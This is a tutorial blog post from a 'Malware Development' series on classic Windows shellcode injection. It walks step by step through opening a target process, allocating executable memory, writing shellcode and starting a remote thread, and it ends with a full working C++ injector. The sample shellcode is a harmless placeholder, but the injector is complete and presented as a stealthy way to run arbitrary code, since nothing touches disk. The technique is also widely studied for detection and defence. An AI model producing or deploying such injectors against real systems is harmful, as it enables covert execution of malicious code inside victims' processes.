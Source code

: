 ```yaml
---
title: "Process Injection: Classic Shellcode Injection"
date: 2025-06-14 12:22:22
categories: [Malware Development, Process Injection]  
tags: [windows, shellcode, injection, process-injection, cpp]
---
```


Welcome to another post in the Malware Development series. In this article, we’ll break down **Classic Shellcode Injection**—one of the most fundamental and widely used process injection techniques. We’ll explain each step in detail, describe what’s happening under the hood, and provide clear C code samples along the way. At the end, you’ll find a full working example.

---

## What is Classic Shellcode Injection?

Classic shellcode injection is the process of injecting raw, position-independent code (shellcode) into the memory of another running process and then executing it. Shellcode is typically a small, handcrafted assembly payload designed to perform a specific action, such as spawning a shell or downloading a file. Unlike PE injection, shellcode is just a sequence of CPU instructions with no headers or sections[5](https://rioasmara.com/2025/05/30/shellcode-the-art-of-in-memory-code-injection-a-deep-dive-for-security-enthusiasts/)[6](https://redfoxsec.com/blog/process-injection-harnessing-the-power-of-shellcode/).

---

## Why Use Shellcode Injection?

- **Stealth:** The injected code never appears as a file on disk.
    
- **Simplicity:** The technique is straightforward and effective.
    
- **Flexibility:** Works with any process you have access to, and can execute arbitrary code.
    

---

## Step-by-Step Classic Shellcode Injection

## 1. Locate the Target Process
First, you need to identify the process you want to inject into. This could be any running process—commonly something benign like `notepad.exe` or `explorer.exe`. You can enumerate processes using APIs like `CreateToolhelp32Snapshot` or, for demonstration, use `FindWindow` to get a PID by window name.

**Sample Code:**
```Cpp
// Example: Find the PID of Notepad by its window title
HWND hwnd = FindWindowW(L"Notepad", NULL);
DWORD targetPID = 0;
if (hwnd) {
    GetWindowThreadProcessId(hwnd, &targetPID);
}
if (targetPID == 0) {
    printf("Target process not found.\n");
    exit(1);
}

```


---

## 2. Obtain a Handle to the Target Process

With the PID in hand, you need to open the process with sufficient privileges to allocate memory, write to it, and create threads.

**Sample Code:**
```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE,
    targetPID
);
if (hProcess == NULL) {
    printf("OpenProcess failed. Error: %d\n", GetLastError());
    exit(1);
}

```

---

## 3. Allocate Memory in the Target Process

You must allocate a memory region in the target process that is large enough for your shellcode and marked as executable. This is done with `VirtualAllocEx`.

**Sample Code:**
```cpp
unsigned char shellcode[] = { 0x90, 0x90, 0x90, 0xCC, 0xC3 }; // Example shellcode (NOPs + INT3 + RET)
SIZE_T shellcodeSize = sizeof(shellcode);

LPVOID remoteMem = VirtualAllocEx(
    hProcess,
    NULL,
    shellcodeSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
if (remoteMem == NULL) {
    printf("VirtualAllocEx failed. Error: %d\n", GetLastError());
    CloseHandle(hProcess);
    exit(1);
}

```
---

## 4. Write the Shellcode to the Allocated Memory

Now, copy your shellcode from your process into the target process’s memory using `WriteProcessMemory`.

**Sample Code:**

```cpp
if (!WriteProcessMemory(hProcess, remoteMem, shellcode, shellcodeSize, NULL)) {
    printf("WriteProcessMemory failed. Error: %d\n", GetLastError());
    VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    exit(1);
}
```

---

## 5. Execute the Injected Shellcode

Finally, create a new thread in the target process that starts execution at the address of your shellcode. This is done with `CreateRemoteThread`.

**Sample Code:**
```cpp
HANDLE hThread = CreateRemoteThread(
    hProcess,
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)remoteMem,
    NULL,
    0,
    NULL
);
if (hThread == NULL) {
    printf("CreateRemoteThread failed. Error: %d\n", GetLastError());
    VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    exit(1);
}
printf("Shellcode injected and thread started!\n");

````

---

## Full Working Example

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
    // 1. Find Notepad PID (for demo)
    HWND hwnd = FindWindowW(L"Notepad", NULL);
    DWORD targetPID = 0;
    if (hwnd) {
        GetWindowThreadProcessId(hwnd, &targetPID);
    }
    if (targetPID == 0) {
        printf("Target process not found.\n");
        return 1;
    }

    // 2. Open target process
    HANDLE hProcess = OpenProcess(
        PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
        FALSE,
        targetPID
    );
    if (hProcess == NULL) {
        printf("OpenProcess failed. Error: %d\n", GetLastError());
        return 1;
    }

    // 3. Allocate memory for shellcode
    unsigned char shellcode[] = { 0x90, 0x90, 0x90, 0xCC, 0xC3 }; // Example shellcode
    SIZE_T shellcodeSize = sizeof(shellcode);

    LPVOID remoteMem = VirtualAllocEx(
        hProcess,
        NULL,
        shellcodeSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    if (remoteMem == NULL) {
        printf("VirtualAllocEx failed. Error: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // 4. Write shellcode to remote process
    if (!WriteProcessMemory(hProcess, remoteMem, shellcode, shellcodeSize, NULL)) {
        printf("WriteProcessMemory failed. Error: %d\n", GetLastError());
        VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // 5. Create remote thread to execute shellcode
    HANDLE hThread = CreateRemoteThread(
        hProcess,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)remoteMem,
        NULL,
        0,
        NULL
    );
    if (hThread == NULL) {
        printf("CreateRemoteThread failed. Error: %d\n", GetLastError());
        VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    printf("Shellcode injected and thread started!\n");

    // Cleanup
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return 0;
}

```
---

## Conclusion

Classic shellcode injection is the foundation of many process injection techniques. By following these steps—finding a target, opening it, allocating memory, writing shellcode, and creating a remote thread—you can execute arbitrary code in another process’s context. This method is simple, effective, and forms the basis for more advanced injection strategies
